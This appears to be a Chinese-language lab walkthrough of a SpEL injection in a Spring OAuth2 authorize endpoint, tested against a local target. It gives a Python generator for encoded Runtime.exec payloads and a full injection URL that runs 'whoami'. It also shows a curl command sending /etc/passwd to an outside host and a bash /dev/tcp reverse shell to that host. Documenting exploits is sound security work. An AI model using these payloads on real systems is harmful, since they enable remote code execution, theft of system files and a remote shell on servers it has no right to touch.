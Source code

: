 ![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210817101930.png)

出现以下界面则存在漏洞

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210817101932.png)

使用github上找到的poc对传入值进行处理

    
    
    #!/usr/bin/env pythonmessage = input('Enter message to encode:')poc = '${T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(%s)' % ord(message[0])for ch in message[1:]:    poc += '.concat(T(java.lang.Character).toString(%s))' % ord(ch)poc += ')}'print(poc)

![]()

这里我传入一个whoami，返回了一个payload

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210817101933.png)

将这个payload拼接到之前的网址里面访问可以发现，这里返回了一个`[java.lang.UNIXProcess@f2e3e13]`，说明代码已经执行了

    
    
    http://127.0.0.1:8080/oauth/authorize?response_type=${T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(119).concat(T(java.lang.Character).toString(104)).concat(T(java.lang.Character).toString(111)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(109)).concat(T(java.lang.Character).toString(105)))}&client_id=acme&scope=openid&redirect_uri=http://test

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210817101934.png)

这里使用curl发送一个请求即可得到回显得内容

    
    
    curl 192.168.1.2:5555 -d "$(cat /etc/passwd)"

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210817101935.png)

这里再使用nc监听尝试反弹shell

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210817101936.png)

使用到bash反弹，这里需要绕过exec()变形

    
    
    bash -i >& /dev/tcp/192.168.1.2/5555 0>&1

使用http://www.jackson-t.ca/runtime-exec-payloads.html进行payload处理

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210817101937.png)

将处理后的命令再放入poc.py

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210817101938.png)

得到新的payload并拼接到网址里面
